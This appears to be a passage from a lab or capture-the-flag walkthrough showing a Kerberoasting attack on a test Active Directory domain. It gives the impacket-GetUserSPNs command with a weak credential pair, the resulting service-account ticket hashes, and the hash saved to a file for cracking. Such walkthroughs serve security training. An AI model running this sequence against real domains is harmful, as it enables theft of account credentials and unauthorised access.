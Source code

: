 </❌ Failed Step>

`ntpdate 192.168.56.128`:
```
2024-09-03 13:42:46.770792 (-0400) +32399.550622 +/- 0.000754 192.168.56.128 s1 no-leap
CLOCK: time stepped by 32399.550622
```

`impacket-GetUserSPNs -dc-ip 192.168.56.128 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 13:32:23.726085  <never> ←              
FW/ProxyServer          firewall_svc              2024-06-17 13:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 13:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 13:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 13:29:18.511871  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$9da2eb1ac6753a95a87d415564754be4$ecccdc63caf4d533e4a6ece38cb77f7a2f8b27d4d28ef5c72381ac4389c2e846f69e6ea26dc96f1e5c4f41f65dcc30f7e987a2d4681feca30771c4e4569860c09fe92bfab6390100aabc

[...]

6b834422e8dba72c27dd7f52fd1503b49735719a9c1a6fda9e8ae5b21eb1845deb44ed5701e34117c81e92689a883e2900c2809f4e0583b399e614d6f3b060beee913b5c29b13ca1cedbfefe2a10d72b479ac633f5032d200944453d62bb3896e0e2e7107902b8d5e5dc06496297012 ←

$krb5tgs$23$*firewall_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/firewall_svc*$83616750598e8e212f94bf82d5dca6a7$e24de15d6e335b0ec777de53dc35faf68553cbf51b09b4db85ee049ff26037dc4bef18aef23ce1c2debef610224e913d604fe1945d5940b9927f7bae66dd85865e18d71c5e9d

[...]
```

`vim ./fileserver_tgs.txt`:
```
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$9da2eb1ac6753a95a87d415564754be4$ecccdc63caf4d533e4a6ece38cb77f7a2f8b27d4d28ef5c72381ac4389c2e846f69e6ea26dc96f1e5c4f41f65dcc30f7e987a2d4681feca30771c4e4569860c09fe92bfab6390100aabc

[...]

6b834422e8dba72c27dd7f52fd1503b49735719a9c1a6fda9e8ae5b21eb1845deb44ed5701e34117c81e92689a883e2900c2809f4e0583b399e614d6f3b060beee913b5c29b13ca1cedbfefe2a10d72b479ac633f5032d200944453d62bb3896e0e2e7107902b8d5e5dc06496297012 ←
```
